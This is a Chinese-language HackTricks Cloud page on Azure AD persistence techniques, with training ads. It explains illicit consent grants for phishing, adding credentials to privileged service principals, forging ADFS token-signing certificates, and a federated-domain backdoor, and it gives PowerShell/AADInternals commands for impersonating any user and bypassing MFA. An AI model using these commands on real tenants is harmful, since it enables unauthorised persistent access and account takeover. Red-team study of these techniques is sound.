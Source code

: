 # Az - 持久性

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

### 非法同意授予

默认情况下，任何用户都可以在 Azure AD 中注册应用程序。因此，您可以注册一个需要高影响权限的应用程序（仅针对目标租户），并获得管理员同意（如果您是管理员则批准）——例如代表用户发送邮件、角色管理等。这将使我们能够**执行钓鱼攻击**，如果成功将非常**有成效**。

此外，您还可以接受该应用程序作为用户，以保持对其的访问。

### 应用程序和服务主体

拥有应用程序管理员、GA 或具有 microsoft.directory/applications/credentials/update 权限的自定义角色的权限，我们可以向现有应用程序添加凭据（密钥或证书）。

可以**针对具有高权限的应用程序**或**添加具有高权限的新应用程序**。

一个有趣的角色是**特权身份验证管理员角色**，因为它允许**重置全球管理员的密码**。

该技术还允许**绕过 MFA**。

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 对于基于证书的身份验证

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### 联邦 - 令牌签名证书

在本地 AD 上拥有 **DA 权限**，可以创建和导入有效期非常长的 **新令牌签名** 和 **令牌解密证书**。这将允许我们 **以任何用户身份登录**，只要我们知道他们的 ImuutableID。

**在 ADFS 服务器上以 **DA** 身份运行以下命令以创建新证书（默认密码 'AADInternals'），将其添加到 ADFS，禁用自动滚动并重启服务：
```powershell
New-AADIntADFSSelfSignedCertificates
```
然后，使用 Azure AD 更新证书信息：
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

在租户上拥有 GA 权限时，可以**添加一个新域**（必须经过验证），将其身份验证类型配置为联合，并将该域配置为**信任特定证书**（以下命令中的 any.sts）和颁发者：
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## 参考文献

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
